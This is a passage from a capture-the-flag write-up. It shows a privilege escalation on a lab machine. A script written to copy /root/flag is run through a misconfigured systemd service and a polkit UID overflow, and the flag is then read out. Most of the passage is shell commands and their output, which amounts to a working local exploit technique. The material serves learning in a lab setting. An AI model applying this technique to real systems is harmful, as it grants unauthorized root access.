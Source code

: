 Now let's do the same, but our script will read the contents of flag and pass it to file in our directory. All other steps are the same.

```text
elf@northpole:~$ cat <<EOF >> /home/elf/dup.sh
> #!/bin/sh
> 
> cat /root/flag > /home/elf/flag
> EOF

elf@northpole:~$ systemctl start vulnerable.service

(process:208): GLib-GObject-WARNING **: value "-274786072" of type 'gint' is invalid or out of range for property 'uid' of type 'gint'
**
ERROR:pkttyagent.c:175:main: assertion failed: (polkit_unix_process_get_uid (POLKIT_UNIX_PROCESS (subject)) >= 0)
elf@northpole:~$ ls -la
total 12
drwx------ 2 elf  users 1024 Dec 30 12:35 .
drwxr-xr-x 3 root root  1024 Dec  6 23:48 ..
lrwxrwxrwx 1 root root     9 Dec  7 00:54 .bash_history -> /dev/null
-rw-r--r-- 1 elf  users  220 May 15  2017 .bash_logout
-rw-r--r-- 1 elf  users 3526 May 15  2017 .bashrc
-rw-r--r-- 1 elf  users  675 May 15  2017 .profile
-rw-r--r-- 1 root root   266 Dec 30 12:35 dir
-rw-r--r-- 1 root root    29 Dec 30 12:35 flag
-rw-r--r-- 1 elf  users  213 Dec 30 12:33 vulnerable.service
-rwxr-xr-x 1 elf  users   84 Dec 30 12:35 dup.sh
```

And here we have the flag. 

```text
elf@northpole:~$ cat flag
AOTW{INtEgerzRhARds0mETIm35}
```